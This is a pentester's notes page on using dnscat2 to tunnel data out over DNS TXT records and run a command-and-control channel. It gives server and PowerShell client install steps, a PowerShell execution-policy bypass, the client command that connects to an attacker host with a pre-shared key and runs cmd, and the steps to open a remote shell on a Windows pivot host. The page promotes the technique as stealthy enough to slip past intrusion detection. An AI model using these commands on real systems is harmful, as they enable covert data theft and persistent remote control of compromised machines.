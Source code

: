 -- -
Exfiltrate data over DNS. The data will be encrypted and be sent over the network as the content of a DNS TXT record. Works as a Command & Control (C2) connection. Extremely stealthy approach, should get passed IDS/IPS systems even if they try to inspect the packets sent over the network as they mostly check HTTP traffic for exfiltration.
#### Git Install - Server
Install and run server on attack host
```bash
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
sudo gem install bundler
sudo bundle install
```
#### Git Install - Client
In this example, we will use the powershell client. There are multiple versions/flavors.
First, download the repo:
`git clone https://github.com/lukebaggett/dnscat2-powershell.git`
Then, [[Dark Arts/File Transfer/Windows|file transfer]] over the `dnscat2.ps1` script to windows pivot host. Import module into powershell:
```powershell
# open powershell with execution policy set to bypass
powershell -ep bypass

# import module
Import-Module .\dnscat2.ps1
```
#### Establish Tunnel
Start the server on the attackbox:
```bash
# This will spit out a Secret Key used for encryption and passed to the client in the below command under the -PreSharedSecret param
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```
Start Client on Windows Pivot Host:
```powershell
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd
```
#### Basic Interactions
Upon completion, you will get a session on the server. This lets you interact with the dnscat directly:
```bash
# pull up help menu
dnscat> ?

# open a shell on pivot host:
window -i 1

# to exit shell:
ctrl-z
```
